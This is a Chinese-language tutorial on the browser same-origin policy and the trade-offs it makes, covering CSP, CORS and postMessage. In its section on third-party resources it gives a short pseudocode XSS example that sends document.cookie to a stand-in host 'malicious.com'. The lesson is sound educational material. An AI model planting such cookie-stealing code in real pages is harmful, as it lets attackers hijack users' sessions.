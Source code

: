 # 32.同源策略：为什么`XMLHttpRequst`不能跨域请求资源

通过前面 `6` 个模块的介绍，我们已经大致知道浏览器是怎么工作的了，也了解这种工作方式对前端产生了什么样的影响。在这个过程中，我们还穿插介绍了一些浏览器安全相关的内容，不过都比较散，所以最后的 `5` 篇文章，我们就来系统地介绍下浏览器安全相关的内容。

浏览器安全可以分为**三大块**——**`Web` 页面安全**、**浏览器网络安全**和**浏览器系统安全**，所以本模块我们就按照这个思路来做介绍。鉴于**页面安全**的重要性，我们会用三篇文章来介绍该部分的知识；网络安全和系统安全则分别用一篇来介绍。

今天我们就先来分析页面中的安全策略，不过在开始之前，我们先来做个假设，如果页面中没有安全策略的话，`Web` 世界会是什么样子的呢？

`Web` 世界会是开放的，任何资源都可以接入其中，我们的网站可以加载并执行别人网站的脚本文件、图片、音频 / 视频等资源，甚至可以下载其他站点的可执行文件。

`Web` 世界是开放的，这很符合 `Web` 理念。但如果 `Web` 世界是绝对自由的，那么页面行为将没有任何限制，这会造成无序或者混沌的局面，出现很多不可控的问题。

比如你打开了一个银行站点，然后又一不小心打开了一个恶意站点，如果没有安全措施，恶意站点就可以做很多事情：

- 修改银行站点的 `DOM`、`CSSOM` 等信息；
- 在银行站点内部插入 `JavaScript` 脚本；
- 劫持用户登录的用户名和密码；
- 读取银行站点的 `Cookie`、`IndexedDB` 等数据；
- 甚至还可以将这些信息上传至自己的服务器，这样就可以在你不知情的情况下伪造一些转账请求等信息。

所以说，在没有安全保障的 `Web` 世界中，我们是没有隐私的，因此需要安全策略来保障我们的隐私和数据的安全。

这就引出了页面中最基础、最核心的安全策略：**同源策略**（`Same-origin policy`）。

## 什么是同源策略

要了解什么是同源策略，我们得先来看看什么是同源。

如果两个 `URL` 的协议、域名和端口都相同，我们就称这两个 `URL` 同源。比如下面这两个 `URL`，它们具有相同的协议 `HTTPS`、**相同的域名**` time.geekbang.org`，以及**相同的端口** `443`，所以我们就说这两个 `URL` 是**同源的**。


```
https://time.geekbang.org/?category=1
https://time.geekbang.org/?category=0
```

浏览器默认两个**相同的源**之间是可以**相互访问资源**和**操作 `DOM`** 的。两个不同的源之间若想要相互访问资源或者操作 `DOM`，那么会有一套**基础的安全策略**的制约，我们把这称为**同源策略**。

具体来讲，同源策略主要表现在 `DOM`、**`Web` 数据**和**网络**这三个层面。

**第一个，`DOM` 层面**。同源策略限制了来自不同源的 `JavaScript` 脚本对当前 `DOM` 对象读和写的操作。

**第二个，数据层面。同源策略限制了不同源的站点读取当前站点的 `Cookie`、`IndexedDB`、`LocalStorage` 等数据**。由于同源策略，我们依然无法通过第二个页面的 `opener` 来访问第一个页面中的 `Cookie`、`IndexedDB` 或者 `LocalStorage` 等内容。你可以自己试一下，这里我们就不做演示了。

**第三个，网络层面**。同源策略限制了通过 `XMLHttpRequest` 等方式将站点的数据发送给**不同源的站点**。你还记得在《`17` | `WebAPI`：`XMLHttpRequest` 是怎么实现的？》这篇文章的末尾分析的 `XMLHttpRequest` 在使用过程中所遇到的坑吗？其中第一个坑就是在默认情况下**不能访问跨域的资源**。

## 安全和便利性的权衡

我们了解了同源策略会隔离不同源的 `DOM`、页面数据和网络通信，进而实现 `Web` 页面的安全性。

不过**安全性**和**便利性**是相互对立的，让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得 `Web` 项目难以开发和使用。因此我们就要在这之间做出权衡，出让一些安全性来满足灵活性；而出让安全性又带来了很多安全问题，最典型的是 **`XSS` 攻击**和 **`CSRF` 攻击**，这两种攻击我们会在后续两篇文章中再做介绍，本文我们只聊浏览器出让了同源策略的哪些安全性。

### 1. 页面中可以嵌入第三方资源

我们在文章开头提到过，`Web` 世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有 `HTML` 文件、`JavaScript` 文件、`CSS` 文件、图片等资源都部署在同一台服务器上，这无疑违背了 `Web` 的初衷，也带来了诸多限制。比如将不同的资源部署到不同的 `CDN` 上时，`CDN` 上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。

所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些**恶意程序劫持**，劫持的途径很多，其中最常见的是恶意程序通过各种途径往 `HTML` 文件中插入恶意脚本。

比如，恶意程序在 `HTML` 文件内容中插入如下一段 `JavaScript` 代码

![](http://ahuntsun.gitee.io/blogimagebed/img/browser/part6/ls32/1.png)

当这段` HTML` 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、**改变**一些内容的**连接指向**，等等。

除此之外，它还能将页面的的敏感数据，如 `Cookie`、`IndexDB`、`LoacalStorage` 等数据通过 `XSS` 的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个**恶意链接**时，恶意 `JavaScript` 代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：

```js
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
```

在这段代码中，恶意脚本读取 `Cookie` 数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的 `Cookie` 信息。

以上就是一个非常典型的 `XSS` 攻击。为了解决 `XSS` 攻击，浏览器中引入了**内容安全策略**，称为 `CSP`。`CSP` 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 `JavaScript` 代码。通过这些手段就可以大大减少 `XSS` 攻击。

### 2. 跨域资源共享和跨文档消息机制

默认情况下，如果打开极客邦的官网页面，在官网页面中通过 `XMLHttpRequest` 或者 `Fetch` 来请求 `InfoQ` 中的资源，这时同源策略会阻止其向 `InfoQ` 发出请求，这样会大大制约我们的生产力。

为了解决这个问题，我们引入了**跨域资源共享**（`CORS`），使用该机制可以进行**跨域访问控制**，从而使跨域数据传输得以安全进行。

在介绍同源策略时，我们说明了如果两个页面不是同源的，则**无法相互操纵 `DOM`**。不过在实际应用中，经常需要两个不同源的 `DOM` 之间进行通信，于是浏览器中又引入了**跨文档消息机制**，可以通过 `window.postMessage` 的 `JavaScript` 接口来和不同源的 `DOM` 进行**通信**。

## 总结

好了，今天就介绍到这里，下面我来总结下本文的主要内容。

同源策略会**隔离不同源**的 `DOM`、**页面数据**和**网络通信**，进而实现 `Web` 页面的安全性。

不过鱼和熊掌不可兼得，要绝对的安全就要牺牲掉便利性，因此我们要在这二者之间做权衡，找到中间的一个平衡点，也就是目前的页面安全策略原型。总结起来，它具备以下三个特点：

页面中可以引用第三方资源，不过这也暴露了很多诸如 `XSS` 的安全问题，因此又在这种开放的基础之上引入了 `CSP` 来限制其自由程度。
使用 `XMLHttpRequest` 和 `Fetch` 都是**无法直接进行跨域请求**的，因此浏览器又在这种严格策略的基础之上引入了**跨域资源共享策略**，让其可以安全地进行跨域操作。
两个不同源的 `DOM` 是不能相互操纵的，因此，浏览器中又实现了**跨文档消息机制**，让其可以比较安全地通信。